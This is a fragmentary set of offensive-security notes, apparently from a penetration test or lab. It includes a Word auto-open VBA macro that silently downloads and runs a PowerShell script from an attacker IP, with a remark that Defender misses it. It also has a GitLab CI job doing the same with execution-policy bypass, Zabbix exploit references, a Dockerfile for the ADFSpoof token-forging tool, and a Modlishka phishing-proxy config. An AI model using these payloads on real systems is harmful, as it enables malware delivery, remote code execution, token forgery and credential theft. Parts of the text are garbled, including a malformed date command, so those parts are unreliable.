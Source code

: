 defender does not catch on
// additional


```
' Macro
Sub Document_Open()
    MyMacro
End Sub

Sub AutoOpen()
    MyMacro
End Sub

Sub MyMacro()
    Dim str As String
    str = "powershell (New-Object System.Net.WebClient).DownloadString('http://10.10.14.87/test.ps1') | IEX"
    Shell str, vbHide
End Sub
```

script to get comand exec

```
stages:
  - build

build-code-job:
  stage: build
  tags:
    - windows
    - powershell
  script:
    - cmd.exe /c "powershell -ep bypass iex (New-Object Net.WebClient).DownloadString('http://10.10.14.12/test.ps1')"
```

zabbix 

 https://github.com/Diefunction/ZabbixAPIAbuse and https://www.exploit-db.com/exploits/39937 and the metasploit exploit/multi/http/zabbix_script_exec



ADFSPOOF Docker

FROM python:3.8.0-buster

RUN apt update && apt install -y faketime
RUN git clone https://github.com/dmb2168/cryptography.git && cd cryptography && pip install -e .
RUN git clone https://github.com/mandiant/ADFSpoof.git && cd ADFSpoof && pip install -r requirements.txt

WORKDIR /ADFSpoof

Drop that into a file called Dockerfile and run
docker build . -t adfspoof

to create adfspoof image. Launch the container and run bash in it with
docker -it --rm -v $(pwd):/keys adfspoof /bin/bash

Then you just run python3 ADFSpoof.py with faketime inside the container with your secret files in /keys

timestamp

┌──(root㉿kali)-[~]
└─# date -d @proxychains ldapsearch -LLL -x -H ldap://192.168.20.10 -b '' -s base '(objectclass=*)' | grep -i currentTime | awk -F\: {'print $2'} | awk -F\. {'print $1'} | sed 's/^ *//g'| awk '{$NF=""}1'

modlishka json

```
└─# cat modlishka.json      
{
  "proxyDomain": "00security.com",
  "listeningAddress": "10.x.x.x",

  "target": "spy.0x0security.com",
  "targetResources": "",
  "targetRules": "",
  "terminateTriggers": "",
  "terminateRedirectUrl": "",
  "trackingCookie": "id",
  "trackingParam": "id",
  "jsRules":"",
  "forceHTTPS": false,
  "forceHTTP": false,
  "dynamicMode": false,
  "debug": true,
  "logPostOnly": false,
  "disableSecurity": true,
  "log": "**requests.log"**,           <--------------------------------------
  "plugins": "all",
  "cert": "",
  "certKey": "",
  "certPool": ""
}
```

